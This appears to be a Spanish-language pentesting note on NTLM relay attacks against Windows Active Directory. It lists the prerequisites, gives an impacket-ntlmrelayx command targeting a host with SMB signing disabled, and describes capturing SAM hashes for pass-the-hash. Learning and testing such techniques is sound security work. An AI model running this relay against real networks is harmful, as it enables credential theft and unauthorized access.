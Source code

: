 # Relay Attacks 

Tags: #AD #Windows #Relay #SMB 

**impacket-ntlmrelayx** es una herramienta de la suite Impacket, desarrollada por Fortra (anteriormente SecureAuth), diseñada para ejecutar ataques de retransmisión NTLM. Este tipo de ataque explota las vulnerabilidades en el manejo de autenticación del protocolo NTLM (NT LAN Manager) en redes Windows, permitiendo a los atacantes interceptar y retransmitir credenciales para acceder a recursos y servicios de la red sin necesidad de descifrar contraseñas.

* [SMB - Relay - attacks](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-mitm-relay/#smb-signing-disabled-and-ipv4)

```bash 
# Necesitamos tener varias condiciones:

1. Mirar la IP de la maquina de atacante
2. Que el 'SMB' este como 'SMB Signing Disabled' o 'Signing = False' 
3. Utilizando técnicas de envenenamiento de LLMNR y NBT-NS, el atacante puede hacer que las solicitudes de autenticación se dirijan a su máquina, esto se hará por medio de la tool de 'Impacket'.
```

```bash 
# En la maquina de atacante ejecutamos el comando 
❯ impacket-ntlmrelayx --no-http-server -smb2support -t smb://10.0.1.249

	# smb = IP de la maquina victima que tiene el SMB no firmado 


# Importante: 
1. Este ataque hará un Man-in-the-middle, por lo que estará escuchando hasta que capture el HASH de SAM
2. Debemos hacer que la victima ingrese a un directorio que apunte a la 'IP del atacante' para generar tráfico y poder capturar el HASH de SAM.
3. Una vez capturado el HASH se puede hacer 'Pass-the-hash' para autenticarse. 
```